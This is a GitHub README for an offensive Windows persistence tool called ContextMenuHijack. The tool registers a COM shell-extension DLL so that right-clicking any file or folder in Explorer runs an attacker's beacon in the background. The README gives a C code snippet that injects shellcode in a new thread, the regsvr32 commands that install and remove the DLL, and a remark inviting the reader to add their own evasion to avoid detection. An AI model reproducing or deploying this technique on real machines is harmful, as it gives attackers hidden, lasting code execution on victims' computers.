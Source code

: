 # ContextMenuHijack

This original idea that inspired me is from [@NinjaParanoid](https://twitter.com/NinjaParanoid) :

[![Video](https://user-images.githubusercontent.com/75935486/212143342-bda8da88-b076-488f-a3c2-126a4875c2c1.png)](https://www.youtube.com/watch?v=SwdmijpSjjA&ab_channel=ChetanNayak)


[ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) is a simple persistence technique that use COM hijacking based on human behavior, when you right click on a file/folder in the File Explorer to open the Context Menu, it executes at the same time the beacon we specified.
```c
IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID ) {
    DWORD tid = NULL;
    CreateThread(NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)InjectShc, NULL, 0, &tid);

    if (NULL == pDataObj) {
	if (pidlFolder != NULL) {
	}
        return S_OK;
    }
    return S_OK;
}
```

### Usage

You just have to load the solution file (.sln) and build it. It's important to know that you need **adminstrator privileges** to use this persistence technique. Once you have done all of this, you just have to register the DLL file in the registry with `regsvr32`:

```powershell
regsvr32 "C:\path\to\ContextMenuHijack.dll"
```

> if you want to uninstall it just use `/u` flag
```powershell
regsvr32 /u "C:\path\to\ContextMenuHijack.dll"
```

![persistence1](https://user-images.githubusercontent.com/75935486/225428627-e6cc9601-5664-4b19-8d5c-7a4bdf5b01dd.gif)


- this technique can be easily detected from the thread stack of `explorer.exe`, it is up to you to use your own evasion tradecraft 
![image](https://user-images.githubusercontent.com/75935486/212399032-3249579d-fff5-42e7-b18b-b3e7d13efaad.png)


# Credits

- https://github.com/rikka0w0/ExplorerContextMenuTweaker
- https://learn.microsoft.com/en-us/windows/win32/shell/how-to-implement-the-icontextmenu-interface?redirectedfrom=MSDN
- https://www.codeproject.com/Articles/441/The-Complete-Idiot-s-Guide-to-Writing-Shell-Extens
